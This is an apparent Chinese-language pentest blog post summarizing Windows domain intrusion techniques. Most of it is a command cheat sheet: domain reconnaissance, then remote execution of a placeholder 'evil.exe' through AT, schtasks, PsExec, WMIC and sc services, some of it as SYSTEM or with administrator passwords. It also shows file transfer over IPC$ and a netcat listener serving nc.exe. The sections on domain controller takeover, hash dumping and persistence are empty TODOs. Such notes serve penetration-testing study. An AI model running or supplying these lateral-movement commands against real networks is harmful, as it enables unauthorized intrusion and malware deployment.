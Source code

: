 ```yaml
---
layout:     post
title:      "Windows 内网渗透总结"
subtitle:   "内网渗透入门姿势  // 多坑待填"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 内网安全
    - 渗透
---
```



# 0x00 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x01 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x02 信息收集

```
net view /domain<:DOMAIN>
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x03 域内

## 域内运行命令

一、计划任务

1) AT

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe  # 上传恶意文件
at \\<HOST> 15:00 c:\windows\temp\evil.exe
```

2) SCHTASKS

```
schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s <HOST> /ru system
schtasks /run /tn boom /s <HOST>
schtasks /delete /tn boom /f /s <HOST>  # 清除 boom
```

二、PsExec

1) 建立 IPC$ 连接后

```
psexec \\<HOST> -c evil.exe
```

2) 在 PsExec 的参数中指定账号密码

```
psexec.exe \\<HOST> –accepteula -u <USERNAME> -p <PASSWORD> -c evil.exe
```

二、WMIC 远程运行命令

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe
wmic /node:<HOST> /user:administrator /p <PASSWORD> process call create c:\windows\temp\evil.exe
```

四、SC 创建服务执行

1) 系统权限(其中test为服务名)

```
sc \\<HOST> create boom binpath= c:\evil.exe
sc \\<HOST> start boom
sc \\<HOST> delete boom
```

2) 指定用户权限启动

```
sc \\<HOST> create boom binpath= c:\evil.exe obj= <DOMAIN>\administrator passwrod= <PASSWORD>
sc \\<HOST> start boom
```

## 域内的文件操作

一、利用 IPC$

```
net use \\<HOST>\IPC$
copy evil.exe \\<HOST>\C$\
```

二、利用 Telnet

服务端：

```
nc -lvp 23 < nc.exe
```

下载端：

```
telnet <HOST> -f c:\nc.exe
```

三、利用文件共享

```
net use x: \\<HOST>\<SHARE> <PASSWORD> /user:[DOMAIN]\<USERNAME>
```


# 0x04 拿下域控

// TODO


# 0x05 Hash dump

// TODO


# 0x06 权限维持

// TODO


# 参考文献

1. [域渗透基础简单信息收集（基础篇）[EB/OL]. https://xianzhi.aliyun.com/forum/read/805.html](https://xianzhi.aliyun.com/forum/read/805.html)
2. [Tomato. windows内网渗透杂谈[EB/OL]. https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
